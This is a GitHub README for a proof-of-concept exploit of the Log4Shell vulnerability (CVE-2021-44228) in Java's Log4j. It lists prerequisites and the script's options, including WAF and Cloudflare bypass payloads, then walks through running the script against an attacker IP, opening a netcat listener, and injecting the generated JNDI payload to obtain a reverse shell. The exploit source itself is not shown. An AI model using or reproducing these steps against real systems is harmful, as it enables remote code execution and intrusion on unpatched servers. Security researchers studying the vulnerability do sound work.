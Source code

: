 # Log4j Simple Exploit
A Proof-Of-Concept Exploit for ***CVE-2021-44228*** vulnerability.

Log4j, which is used to log security and performance information, impacts upwards of 3 billion devices that use Java across a variety of consumer and enterprise services, websites and applications, as well as medical devices and supporting systems.<br>
***Note: This is not a "point and click" exploit. The initial trigger payload will be generated, but injecting it into the appropriate place (i.e. HTTP header/chat/etc.) will be up to the user.***

## Prerequisite's
- python3
- pip install -r requirements.txt
- Install [jdk1.8.0_20](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) and add bin folder to enviroment variable

```
usage: python CVE-2021-44228-exploit.py --help 
[!] CVE: CVE-2021-44228
[!] This is simple Log4j exploit to get reverse shell
[!] Reference: https://akashpatil.me/log4j-guide-book.html

usage: CVE-2021-44228-exploit.py [-h] [--userip userip] [--webport webport] [--lport lport] [-b bypass]

log4shell Reverse shell exploit

optional arguments:
  -h, --help            show this help message and exit
  --userip userip       Enter IP for LDAPRefServer & Shell
  --webport webport     listener port for HTTP port
  --lport lport         Netcat Port
  -b bypass, --bypass bypass
                        Type of bypass payload. None/WAF/Methods/Cloudflare. Methods - "ldap", "jndi", or the
                        ${lower:x} method restriction bypass
```

##### Example:
1) Run the script for Linux OS with bypass payload of method
```
python poc-csw.py --userip private-ip --webport 8888 --lport 9001 -b method
```
![](images/img1.png)
2) run netcat on port 9001 in your local machine 
```
nc -lvnp 9001
```
3) Copy the 'Try me' payload to bypass methods restriction and use it input variable to get shell in netcat
***Note:*** If No bypass is chosen use 'Send me' payload
![](images/img2.png)
![](images/img3.png)


# Reference
- https://akashpatil.me/log4j-guide-book.html
- https://github.com/kozmer/log4j-shell-poc
